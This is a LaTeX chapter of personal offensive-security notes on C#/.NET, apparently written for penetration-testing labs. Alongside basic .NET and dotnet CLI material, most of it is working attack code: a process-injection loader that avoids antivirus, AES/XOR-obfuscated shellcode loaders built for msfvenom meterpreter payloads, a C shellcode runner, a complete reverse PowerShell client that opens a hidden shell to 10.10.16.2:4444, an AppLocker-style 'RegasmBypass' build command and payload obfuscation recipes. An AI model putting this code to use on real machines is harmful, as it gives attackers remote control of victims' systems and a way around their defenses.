\chapter{c\#}

\section{Visual Studio}
\begin{verbatim}
Developer PowerShell for VS 2022
\end{verbatim}

\begin{verbatim}
csc.exe -r:System.EnterpriseServices.dll -r:C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.automation.dll -target:library -out:regasm.dll -keyfile:key.snk .\RegasmBypass\Class1.cs
\end{verbatim}


\section{Introduction}

\subsection{.NET Framework}

\href{https://www.interviewbit.com/blog/dot-net-framework-architecture/}{.Net Framework Architecture – Detailed Explanation}

The .NET Framework consists of a wide range of components that can be used to build applications for any computer platform.
It includes the core .NET Framework API, which is the set of classes that provides the basic building blocks for applications; several other APIs that are designed to support web technologies; and tools such as Visual Studio.

framework code is largely independent of the language in which it is written.

\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{tools/csharp/images/framework-archi.png}
  \caption{.Net Framework Architecture}
  \label{fig:notnet-archi}
\end{figure}



\subsection{Managed / unmanaged}

In {\bf managed code}, programs run in a managed runtime environment, such as CLR in .NET. The code is compiled into an IL (intermediate language), and it is executed by the runtime, which handles tasks such as memory management, garbage collection, type safety, and exception handling.  

In contrast, the {\bf unmanaged code} operates directly on hardware without using a runtime environment. These are typically low-level programming languages, such as C or C++, which are compiled into native machine code and executed by the CPU itself.

{\bf Risks and Mitigation Strategies for Unmanaged Code}:
\begin{itemize}
    \item Memory management issues
    \item Platform dependencies issues
    \item Security vulnerabilities: Unmanaged code tends to be much more vulnerable to buffer overflows and exploits.  
    \item Concurrency and thread safety: The lack of built-in support for managed concurrency of the unmanaged code can lead to race conditions, deadlocks, and other synchronization issues
    \item Loose pointers: (point to locations with deallocated memory or invalid points in general)
\end{itemize}

\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{tools/csharp/images/managed.png}
  \caption{Managed vs Unmanaged}
  \label{fig:notnet-managed}
\end{figure}



\subsection{Platform Invoke (P/Invoke)}
\href{https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke}{P/Invoke} is a technology that allows you to access structs, callbacks, and functions in unmanaged libraries from your managed code. Most of the P/Invoke API is contained in two namespaces: 
\begin{itemize}
    \item 
        \verb+System+
    \item 
        \verb+System.Runtime.InteropServices+
\end{itemize}

\subsubsection{Invoking unmanaged code from managed code}
\begin{verbatim}
using System;
using System.Runtime.InteropServices;

public partial class Program
{
    // Import user32.dll (containing the function we need) and define
    // the method corresponding to the native function.
    [LibraryImport("user32.dll", StringMarshalling = StringMarshalling.Utf16, SetLastError = true)]
    private static partial int MessageBox(IntPtr hWnd, string lpText, string lpCaption, uint uType);

    public static void Main(string[] args)
    {
        // Invoke the function as a regular managed method.
        MessageBox(IntPtr.Zero, "Command-line message box", "Attention!", 0);
    }
}
\end{verbatim}

\subsubsection{Invoking managed code from unmanaged code}

\subsection{attributes}

These are attributes. An attribute is a declarative tag that is used to convey information to runtime about the behaviors of various elements like classes, methods, structures, enumerators, assemblies etc., in your program. You can add declarative information to a program by using an attribute. A declarative tag is depicted by square (\verb+[ ]+) brackets placed above the element it is used for. 

\subsection{Namespaces}

\href{https://learn.microsoft.com/en-us/dotnet/api/?view=netframework-4.7.2}{.NET API browser}

\begin{itemize}
    \item \verb+System.Runtime.InteropServices+: Provides a wide variety of members that support COM interop and platform invoke services. 
    \item \verb+System.Management.Automation+:  is an extension library for powershell
\end{itemize}

\section{Process Injection}

Process injection is an evasion technique which entails running malicious code within the address space of another process. There are many ways it can be done, including:
\begin{itemize}
    \item 
        {\bf DLLInjection}: write the path of a malicious DLL into the address space of a target process and then calls LoadLibrary.
    \item 
        {\bf Portable Executable Injection}: copie code into the address space of a target process and then executes it with CreateRemoteThread.
    \item 
        {\bf Process Hollowing}: spawn a target process in a suspended state, replaces the entrypoint in memory and then resumes the process.
    \item 
        {\bf Thread Execution Hijacking}: suspend a thread in a target process, replaces the code and then resumes the thread.
\end{itemize}



\subsection{Portable Executable Injection}

There is more than one way to achieve this, but the most common way is by making use of the following WinAPI functions:
\begin{itemize}
    \item 
        \href{https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex}{VirtualAllocEx}: allocate space in the memory of the target process for our shellcode
    \item 
        \href{https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory}{WriteProcessMemory} write our shellcode into that allocated space
    \item 
        \href{https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread}{CreateRemoteThread} execute the shellcode in the target process
\end{itemize}

Note:
\begin{itemize}
    \item \verb+lpBaseAddress+ of \verb+WriteProcessMemory()+ is set with the \verb+VirtualAllocEx()+ return value
    \item \verb+lpStartAddress+ of \verb+CreateRemoteThread()+ is set with the \verb+VirtualAllocEx()+ return value
\end{itemize}


In our case, we will additionally make use of:
\begin{itemize}
    \item 
        \href{https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa}{CreateProcess} to spawn our target process, 
    \item
        \href{https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex}{VirtualProtectEx} to allocate memory with Read/Write memory protection, write the shellcode and then set it to Read/Execute before executing. 
\end{itemize}
This is not necessary, but some antivirus solutions find it suspicious when Read/Write/Execute memory is allocated, so this is a simple workaround.

\begin{verbatim}
using System;
using System.Runtime.InteropServices;

namespace ProcessInjection
{
    internal class Program
    {
        [StructLayout(LayoutKind.Sequential)]
        public struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct STARTUPINFO
        {
            private uint cb;
            private IntPtr lpReserved;
            private IntPtr lpDesktop;
            private IntPtr lpTitle;
            private uint dwX;
            private uint dwY;
            private uint dwXSize;
            private uint dwYSize;
            private uint dwXCountChars;
            private uint dwYCountChars;
            private uint dwFillAttributes;
            private uint dwFlags;
            private ushort wShowWindow;
            private ushort cbReserved;
            private IntPtr lpReserved2;
            private IntPtr hStdInput;
            private IntPtr hStdOutput;
            private IntPtr hStdErr;
        }

        public const uint PageReadWrite = 0x04;
        public const uint PageReadExecute = 0x20;

        public const uint DetachedProcess = 0x00000008;
        public const uint CreateNoWindow = 0x08000000;

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto,
            CallingConvention = CallingConvention.StdCall)]
        private static extern bool CreateProcess(IntPtr lpApplicationName,
            string lpCommandLine, IntPtr lpProcAttribs, IntPtr lpThreadAttribs,
            bool bInheritHandles, uint dwCreateFlags, IntPtr lpEnvironment,
            IntPtr lpCurrentDir, [In] ref STARTUPINFO lpStartinfo,
            out PROCESS_INFORMATION lpProcInformation);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern IntPtr VirtualAllocEx(IntPtr hProcess,
            IntPtr lpAddress,
            uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern bool VirtualProtectEx(IntPtr hProcess,
            IntPtr lpAddress, uint dwSize, uint flNewProtect,
            out uint lpflOldProtect);

        [DllImport("kernel32.dll")]
        private static extern bool WriteProcessMemory(IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer, int nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateRemoteThread(IntPtr hProcess,
            IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress,
            IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        private static void Main(string[] args)
        {
            byte[] buf = { }; //{< SNIP >};

            // 1. Create the target process
            var startInfo = new STARTUPINFO();
            var procInfo = new PROCESS_INFORMATION();
            var flags = DetachedProcess | CreateNoWindow;
            CreateProcess(IntPtr.Zero, "C:\\Windows\\System32\\notepad.exe",
                IntPtr.Zero, IntPtr.Zero, false, flags, IntPtr.Zero,
                IntPtr.Zero,
                ref startInfo, out procInfo);

            // 2. Allocate RW space for shellcode in target process
            var lpBaseAddress = VirtualAllocEx(procInfo.hProcess, IntPtr.Zero,
                (uint)buf.Length, 0x3000, PageReadWrite);

            // 3. Copy shellcode to target process
            IntPtr outSize;
            WriteProcessMemory(procInfo.hProcess, lpBaseAddress, buf,
                buf.Length,
                out outSize);

            // 4. Make shellcode in target process's memory executable
            uint lpflOldProtect;
            VirtualProtectEx(procInfo.hProcess, lpBaseAddress, (uint)buf.Length,
                PageReadExecute, out lpflOldProtect);

            // 5. Create remote thread in target process
            var hThread = CreateRemoteThread(procInfo.hProcess, IntPtr.Zero, 0,
                lpBaseAddress, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
\end{verbatim}



\section{ShellCode loader}

\begin{verbatim}
python micr0\ shell.py --ip 10.10.16.2 -p 4444 --language csharp
\end{verbatim}

\subsection{Thread injection}

\begin{verbatim}
using System;
using System.IO;
using System.Linq;
using System.Runtime.InteropServices;
using System.Security.Cryptography;

namespace ShellCodeLoader
{
    internal class ShellCodeLoader
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size,
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize,
            uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(uint lpThreadAttributes,
            uint dwStackSize, IntPtr lpStartAddress, IntPtr param,
            uint dwCreationFlags, ref uint lpThreadId);

        [DllImport("kernel32")]
        private static extern uint WaitForSingleObject(IntPtr hHandle,
            uint dwMilliseconds);

        public static void DisplayBuf(byte[] buf)
        {
            var hex = string.Empty;
            buf.ToList().ForEach(b => hex += b.ToString("x2"));
            Console.WriteLine(hex);
        }

        public static byte[] Xor(byte[] b, byte k)
        {
            var i = 0;
            while (i < b.Length)
            {
                b[i] = (byte)(b[i] ^ k);
                i++;
            }

            return b;
        }

        public static byte[] UncryptBuf(string bufEnc, byte[] key, byte[] iv)
        {
            var aes = Aes.Create();

            var decryptor = aes.CreateDecryptor(key, iv);
            byte[] buf;
            using (var msDecrypt =
                   new MemoryStream(Convert.FromBase64String(bufEnc)))
            {
                using (var csDecrypt = new CryptoStream(msDecrypt, decryptor,
                           CryptoStreamMode.Read))
                {
                    using (var msPlain = new MemoryStream())
                    {
                        csDecrypt.CopyTo(msPlain);
                        buf = msPlain.ToArray();
                    }
                }
            }

            return buf;
        }

        private static void Main(string[] args)
        {
            // Shellcode (msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp)


            // Shellcode (msfvenom -p windows/x64/meterpreter/reverse_http
            //              LHOST= ... LPORT=... -f csharp)
            // xor buffer and decode
            //byte[] buf = {< SNIP > };
            //buf = Xor(buf, 0x5c);

            // aes base64ed string and decode
            byte[] buf;
            var key = new byte[16]
            {
                0x1f, 0x76, 0x8b, 0xd5, 0x7c, 0xbf, 0x02, 0x1b, 0x25, 0x1d,
                0xeb, 0x07, 0x91, 0xd8, 0xc1, 0x97
            };
            var iv = new byte[16]
            {
                0xee, 0x7d, 0x63, 0x93, 0x6a, 0xc1, 0xf2, 0x86, 0xd8, 0xe4,
                0xc5, 0xca, 0x82, 0xdf, 0xa5, 0xe2
            };
            // aes
            //string bufEnc = "vET7JrlOiNB5nQ7lxuOvQ4ZVhPdvHea6Tq17mxavrSCUIQ2puXctZ5uFJ1efqQrfskWTmI3dHFrTx/jQujzhbrHtBf05LMuFUlw5PFFqvMlxV/+volczXJJucCmJPkfIh3Fhog72Cg7M6NVEir0RMFCZV8ERkNZErWYYOEA9yI9imTw9rSCxYulTU1q2J/Jcbsm1OFxVogXkS/aTR6P0qM7FD2KEjKRUck7dI4InXrDcluvSzIfnLji0i5P8hAbV6hBsG/Gnu7vloC7JdoF+QSOFXv3nEMFsQuPnxq5lEUWF0PD1wQ6GtvbeOxY1Z581FepjleC9NdZETLOn9lRopx08/TugE1V0r4SaDlAULqT8gz0xqlgsBBh951SIKpKV0EM0RX6Hhy6gsKDUI2Gk0QG00V4cmw8jNsWTEgmaUap2XsxthSysocWqzkaGP8RtpRjlGSz2pBGKoBIBlJtdRDrXPb2tND+6TTY4k13ZSPnfg+A/cy/nP3ZJshQrrUns9j/ARteus3pvGK8CxeQm6gzKDDv+5CmaI56MU/2Oq5OA8Bp6LGDedd/dLL6BJPK06nefXgWJ7+FBWl9eOcAX91mY1637kgTlmK27qknUQ9CfQzB9cn20tdtzHw34JqGufYRfM6mxzWfHKZwoyNtRC01faVKYprHA4ZJ/ru9wnDU=";
            // 192.168.2.3 4444
            //bufEnc =
            //    "vET7JrlOiNB5nQ7lxuOvQ4ZVhPdvHea6Tq17mxavrSCUIQ2puXctZ5uFJ1efqQrfskWTmI3dHFrTx/jQujzhbrHtBf05LMuFUlw5PFFqvMlxV/+volczXJJucCmJPkfIh3Fhog72Cg7M6NVEir0RMFCZV8ERkNZErWYYOEA9yI9imTw9rSCxYulTU1q2J/Jcbsm1OFxVogXkS/aTR6P0qM7FD2KEjKRUck7dI4InXrDcluvSzIfnLji0i5P8hAbV6hBsG/Gnu7vloC7JdoF+QSOFXv3nEMFsQuPnxq5lEUWF0PD1wQ6GtvbeOxY1Z581FepjleC9NdZETLOn9lRopx08/TugE1V0r4SaDlAULqT8gz0xqlgsBBh951SIKpKV0EM0RX6Hhy6gsKDUI2Gk0QG00V4cmw8jNsWTEgmaUap2XsxthSysocWqzkaGP8Rtr1wVKLeFgydbsGS8UYDAmsrs6o0q5LB+h0QomkqfuJ2zlHsl6e95P7xfa2JuIy1y6FRfLz3e/4Vp3S1gG8WMMF2L/LXXZsdXVlO5Kp8NDaXab9jlq2MAefvLiWGx4FteUPpwiUFGv5NtMBqstxhkjdFoulTcUdpJutCkg2eMywj2vFLPmlH/1If/MVSAMHr68aINgQLHeh2UFd4yUp2VFq6mBPNsOhpZmKfgnmPycBw=";
            //xor and aes
            var bufEnc =
                "<HERE>";
            var xorBuf = UncryptBuf(bufEnc, key, iv);
            buf = Xor(xorBuf, 0x5c);
            //DisplayBuf(buf);

            // Allocate RW space for shellcode
            var lpStartAddress =
                VirtualAlloc(IntPtr.Zero, (uint)buf.Length, 0x1000, 0x04);

            // Copy shellcode into allocated space
            Marshal.Copy(buf, 0, lpStartAddress, buf.Length);

            // Make shellcode in memory executable
            uint lpflOldProtect;
            VirtualProtect(lpStartAddress, (uint)buf.Length, 0x20,
                out lpflOldProtect);

            // Execute the shellcode in a new thread
            uint lpThreadId = 0;
            var hThread = CreateThread(0, 0, lpStartAddress, IntPtr.Zero, 0,
                ref lpThreadId);

            // Wait until the shellcode is done executing
            WaitForSingleObject(hThread, 0xffffffff);
        }
    }
}
\end{verbatim}


Note in \verb+c+:
\begin{verbatim}
#include "windows.h"
#include "stdlib.h"

unsigned char shellcode[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0......};  // SHELLCODE HERE

int main()
{
    int length = sizeof(shellcode);
    void* exec = VirtualAlloc(0, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(exec, shellcode, length);
    HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
}
\end{verbatim}



\section{Misc Codes}

\subsection{Reverse Powershell}

\begin{verbatim}
using System;
using System.IO;
using System.Net.Sockets;
using System.Diagnostics;

namespace ReversePowerShell
{
    internal class ReversePowerShell
    {
        private static StreamWriter streamWriter; // Needs to be global so that HandleDataReceived() can access it

        static void Main(string[] args)
        {
            // Check for correct number of arguments
            //if (args.Length != 2)
            //{
            //    Console.WriteLine($"Usage: {Process.GetCurrentProcess().ProcessName} <IP> <Port>");
            //    return;
            //}

            try
            {
                // Connect to <IP> on <Port>/TCP
                TcpClient client = new TcpClient();
                //client.Connect(args[0], int.Parse(args[1]));
                client.Connect("10.10.16.2", 4444);

                // Set up input/output streams
                Stream stream = client.GetStream();
                StreamReader streamReader = new StreamReader(stream);
                streamWriter = new StreamWriter(stream);
                streamWriter.WriteLine("Hello");
                streamWriter.Flush();

                // Define a hidden PowerShell (-ep bypass -nologo) process with STDOUT/ERR/IN all redirected
                Process p = new Process();
                p.StartInfo.FileName = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe";
                p.StartInfo.Arguments = "-ep bypass -nologo";
                p.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
                p.StartInfo.UseShellExecute = false;
                p.StartInfo.RedirectStandardOutput = true;
                p.StartInfo.RedirectStandardError = true;
                p.StartInfo.RedirectStandardInput = true;
                p.OutputDataReceived += new DataReceivedEventHandler(HandleDataReceived);
                p.ErrorDataReceived += new DataReceivedEventHandler(HandleDataReceived);

                // Start process and begin reading output
                p.Start();
                p.BeginOutputReadLine();
                p.BeginErrorReadLine();
 
                // Re-route user-input to STDIN of the PowerShell process
                // If we see the user sent "exit", we can stop
                string userInput = "";
                while (!userInput.Equals("exit"))
                {
                    userInput = streamReader.ReadLine();
                    p.StandardInput.WriteLine(userInput);
                }

                // Wait for PowerShell to exit (based on user-inputted exit), and close the process
                p.WaitForExit();
                client.Close();
            }
            catch (Exception) { }

        }

        private static void HandleDataReceived(object sender, DataReceivedEventArgs e)
        {
            if (e.Data != null)
            {
                streamWriter.WriteLine(e.Data);
                streamWriter.Flush();
            }
        }
    }
}
\end{verbatim}


\section{Obfuscation}

\href{https://pentest.party/notes/windows/dotnet-obfuscation}{.NET Obfuscation}
\subsection{xor}

\href{https://cyberchef.org/}{Cyberchef}
\begin{itemize}
    \item From Hex (Delimiter: 0x with comma)
    \item XOR (5c HEX, scheme: Standard)
    \item To Hex (Delimiter: 0x with comma, Byes per line: 0)
\end{itemize}

\begin{verbatim}
        public static byte[] xor(byte[] b, byte k)
        {
            var i = 0;
            while (i < b.Length)
            {
                b[i] = (byte)(b[i] ^ k);
                i++;
            }

            return b;
        }
\end{verbatim}


\subsection{AES Encryption}

\href{https://cyberchef.org/}{Cyberchef}
\begin{itemize}
    \item From Hex (Delimiter: 0x with comma)
    \item AES Encrypt: (key: <value> HEK, IV: <value> HEX, mode: CBC, input: Raw, ouput: Raw)
    \item To Base64 (Alphabet: A-Za-z0-9+/=)
\end{itemize}

\begin{verbatim}
        public static byte [] Uncrypt(string be)
        {
            var aes = Aes.Create();
            var key = new byte[16]
            {
                0x1f, 0x76, 0x8b, 0xd5, 0x7c, 0xbf, 0x02, 0x1b, 0x25, 0x1d,
                0xeb, 0x07, 0x91, 0xd8, 0xc1, 0x97
            };
            var iv = new byte[16]
            {
                0xee, 0x7d, 0x63, 0x93, 0x6a, 0xc1, 0xf2, 0x86, 0xd8, 0xe4,
                0xc5, 0xca, 0x82, 0xdf, 0xa5, 0xe2
            };
            var d = aes.CreateDecryptor(key, iv);
            byte[] b;
            // base64 decode
            using (var msd = new MemoryStream(Convert.FromBase64String(be)))
            {
                using (var cs = new CryptoStream(msd, d, CryptoStreamMode.Read))
                {
                    using (var ms = new MemoryStream())
                    {
                        cs.CopyTo(ms);
                        b = ms.ToArray();
                    }
                }
            }

            return b;
        }
\end{verbatim}


\subsection{Gziped}

\href{https://cyberchef.org/}{Cyberchef}
\begin{itemize}
    \item Gzip (Compression type: Dynamic Huffman Coding)
    \item To Base64 (Alphabet: A-Za-z0-9+/=)
\end{itemize}


\begin{verbatim}
# Base64 decode
$gzipBytes = [Convert]::FromBase64String($gzipB64);

# Gzip decompress
$gzipMemoryStream = New-Object IO.MemoryStream(, $gzipBytes);
$gzipStream = New-Object System.IO.Compression.GzipStream($gzipMemoryStream,
                                [IO.Compression.CompressionMode]::Decompress);
$seatbeltMemoryStream = New-Object System.IO.MemoryStream;
$gzipStream.CopyTo($seatbeltMemoryStream);
\end{verbatim}



\section{.Net CLI}
\begin{itemize}
    \item otnet new: Creates a new .NET project. You can specify the type of project (console, classlib, webapi, mvc, etc.). For example, dotnet new console will create a new console application.
    \item dotnet build: Builds a .NET project and all of its dependencies. The -c or --configuration option can be used to specify the build configuration (Debug or Release).
    \item dotnet run: Builds and runs the .NET project. It is typically used during the development process to run the application for testing or debugging purposes.
    \item dotnet test: Runs unit tests in a .NET project using a test framework such as MSTest, NUnit, or xUnit.
    \item dotnet publish: Packs the application and its dependencies into a folder for deployment to a hosting system. The -r or --runtime option can be used to specify the target runtime.
    \item dotnet add package: Adds a NuGet package reference to the project file. You specify the package by name. For example, dotnet add package Newtonsoft.Json.
    \item dotnet remove package: Removes a NuGet package reference from the project file. Similar to the add package command, you specify the package to remove by name.
    \item dotnet restore: Restores the dependencies and tools of a project. This command is implicitly run when you run dotnet new, dotnet build, dotnet run, dotnet test, dotnet publish, and dotnet pack.
    \item dotnet clean: Cleans the output of a project. This command is typically used before you build the project again, as it deletes all the previously compiled files, ensuring that you start from a clean state.
    \item dotnet --info: Displays detailed information about the installed .NET environment, including installed versions and all runtime environments.
\end{itemize}

\begin{verbatim}
dotnet new console
dotnet build
dotnet run
\end{verbatim}



\begin{verbatim}
<Project Sdk="Microsoft.NET.Sdk">
  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net7.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>
  <ItemGroup>
    <!-- references look like this -->
    <Reference Include="Library-Question.dll" />
  </ItemGroup>
</Project>
\end{verbatim}

\begin{verbatim}
<ItemGroup>
  <ProjectReference Include="app.csproj" />
  <ProjectReference Include="..\lib2\lib2.csproj" />
  <ProjectReference Include="..\lib1\lib1.csproj" />
</ItemGroup>

<ItemGroup>
  <Reference Include="MyAssembly">
    <HintPath>".\MyDLLFolder\MyAssembly.dll</HintPath>
  </Reference>
</ItemGroup>
\end{verbatim}


\begin{verbatim}
using HTBLibrary;
using System;

class Program
{
    static void Main(string[] args)
    {
        Console.WriteLine(Flag.GetFlag());
    }
}

\end{verbatim}


\section{mono}

